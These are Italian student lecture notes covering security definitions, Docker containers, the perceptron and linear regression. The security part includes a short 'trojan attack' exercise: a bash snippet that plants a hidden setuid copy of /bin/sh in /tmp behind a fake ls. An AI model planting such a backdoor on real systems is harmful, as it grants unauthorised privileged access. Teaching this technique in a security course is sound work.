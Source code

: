 # 2022-03-14
# Cose da cercare
- [ ] [Bug dash](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=%20734869)
- [ ] PSD2
# Internet Security
![[Recording 20220314131117.webm]]

Anche solo fare una copia di file può portare problemidi sicurezza dato che si parla di permessi del file che copiandolo diventa di nostra proprietà

!def Vulnerabilità
Una vulnerabilità è una particolarità del sistema che può essere usato per perpretare azioni con intenzioni malevole

!def Attacco
La vera e propria perpretazione delle azioni malevole

> Noi dovremo imparare inquesto insegnamento metodi e tecniche fondamentali:
> - Crittografia
> - Policy
> - Conoscenza, possesso, biometria
> - Programmi di protezione
> - Protocolli di sicurezza
> - Sensibilizzazione dell'utente

```ad-def 
title:*Sicurezza*

- Non un prodotto ma un processo
- anello più debole di una catena
- Espressa sa che cosa
- Sempre soggeta all'analisi costio/benefici
- Si realizza in ppratica mediante livelli di sicurezza
```
!def Rischi di base per la sicurezza
- complessità del singolo sistema da mettere in sicurezza
- Conbinazione di sistemi
- Predisposizioni ai bug
- Proprietà emergenti
- Interazione con l'uomo

Una proprietà di sicurezza è presente quando è presente un mezzo d'attacco

## Esercizi
````ad-exercise 
title:Attacco trojan
Provare su varie distro Ubuntu

```bash
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
```
````

# TAP
## Argomenti
- [[#Docker]]

## Docker
!def Container
Un _container_ è un oggetto contenente la _configurazione_ e tutte le _dipendenze_ necessarie ad un *processo*

La containerizzazione dei processi fornisce isolamento, riutilizzo cross platform, ...

!def Docker vs Virtualizzazione
(Sono totalmente diversi... l'unica cosa che noto in comune è una questione di setup/configuration ed isolamento)
In comune hanno una preparazione del campo per eseguire qualcosa (dipendenze e configurazione)

# Machine Learning

generalmente il machine learning si suddivide in descriminativi e generativi

```ad-def 
title:Discriminativi
Trovare un bound di decisione che deve essere appreso
trovare una probabilità a posteriori $P(y|x)$

Gli algoritmi Deep learning fanno capo a questa categoria
```
```ad-def
title:Generativi
Apprendere la probabilità congiunta $P(y,x) = P(y|x)P(x) = P(x|y)P(y)$ 
```

!def Perceptron
Ideato nel 1958 da [...]; è basato sul design dei neuroni.

- Peso $\delta_j \forall$ Componente $x_j$ normalizzato$
- Normalizzazione: $x_j^{(i)} \in [0,1]$
- Moltiplicazione dei pesi per le componenti di input
- Somma dei prodotti
- Risultato delle somme è confrontato rispetto a t risultando $1$ quando $\sum_{j=1}^{d}{\delta_jx_j}>t$ (biass) altrimenti $0$
- Algoritmo di learning
## Algoritmi di learning
### Grid search
- $t\in\mathscr{R}$ randomica
- $\delta_j \in [0,1]$ provando un numero finito di possibilità per ognuno di loro suddividendo $[0,1]$ in $n$ valori equidistanti
### Un metodo di cui non so il nome
- $t\in\mathscr{R}$ randomica
- $\delta_j \in [0,1]$ randomici
- controllo dei risultati e calcolo dell'errore
	- $\hat{y}=sign(\sum_{j=1}^{d}{\delta_jx_j}-t)$
	- dove $t = \delta_0 x_0$;$\;x_0=1$
- correzione dei pesi
  ${\delta_j}_{\tau_1} = {\delta_j}_{\tau_0}+(y-\hat{y})\epsilon \;\forall j$ 

Nel 1969 si dimostrò che il perceptron non basta a risolvere il problema della ***XOR***
$$
\displaylines{
	\begin{cases}
		0\delta_1 &+0\delta_2 &< t &\implies t>0      \\
		1\delta_1 &+1\delta_2 &< t                     \\
		0\delta_1 &+1\delta_2 &> t &\implies \delta_2>t \\
		1\delta_1 &+0\delta_2 &> t &\implies \delta_1>t  \\
	\end{cases}\\
	\delta_1 + \delta_2 > 2t \implies t>2t
}
$$

## Regressione
> Due fasi, *learning* ed *estimation*
### Regressione lineare
Trova una retta che approssima il training set riducendo il più possibile il tasso di errore
!def Cost function
$J(\theta_0,\theta_1) = \frac{1}{2m}\sum_{i=1}^{m}{(h_\theta(x^{(i)})-y^{(i)})^2}$

